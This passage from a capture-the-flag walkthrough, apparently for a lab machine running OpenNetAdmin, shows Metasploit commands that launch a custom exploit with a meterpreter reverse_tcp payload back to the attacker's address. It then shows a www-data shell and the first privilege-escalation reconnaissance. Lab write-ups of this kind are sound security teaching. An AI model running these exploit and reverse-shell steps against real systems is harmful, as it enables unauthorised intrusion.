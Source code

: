 Now that we have the Metasploit exploit within our database lets attempt to run this exploit:

```bash
msf5 > use exploit/custom/ona
msf5 exploit(custom/ona) > set RHOST 10.10.10.171
RHOST => 10.10.10.171
msf5 exploit(custom/ona) > set TARGETURI /ona/
TARGETURL => /ona/
msf5 exploit(custom/ona) > set LHOST 10.10.10.10 #set to your VPN Address
LHOST => 10.10.10.10
msf5 exploit(custom/ona) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf5 exploit(custom/ona) > exploit

[*] Started reverse TCP handler on 10.10.10.10:4444
[*] Exploiting...
[*] Sending stage (3021284 bytes) to 10.10.10.171
[*] Meterpreter session 1 opened at 2020-01-21 15:52:49 +0100
[*] Command Stager progress - 100.12% done (809/808 bytes)

meterpreter >
```

Success! We have a Meterpreter session!

## www-data

Now that we have access to this box let's try to get the `user.txt` flag:

```bash
meterpreter > shell
Process 2625 created.
Channel 1 created.
whoami
www-data
ls /home
jimmy
joanna
cd jimmy
/bin/sh: 3: cd: can't cd to jimmy
cd joanna
/bin/sh: 4: cd: can't cd to joanna
```

Well, it looks like `www-data` does not have access to view the home directories for the `user.txt` flag.

# Privilege Escalation

So we know the user `www-data` does not have access to the `user.txt` flag, so lets try and see if we can use `jimmy` or `joanna` to pivot to their accounts:

```bash
ls

config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
```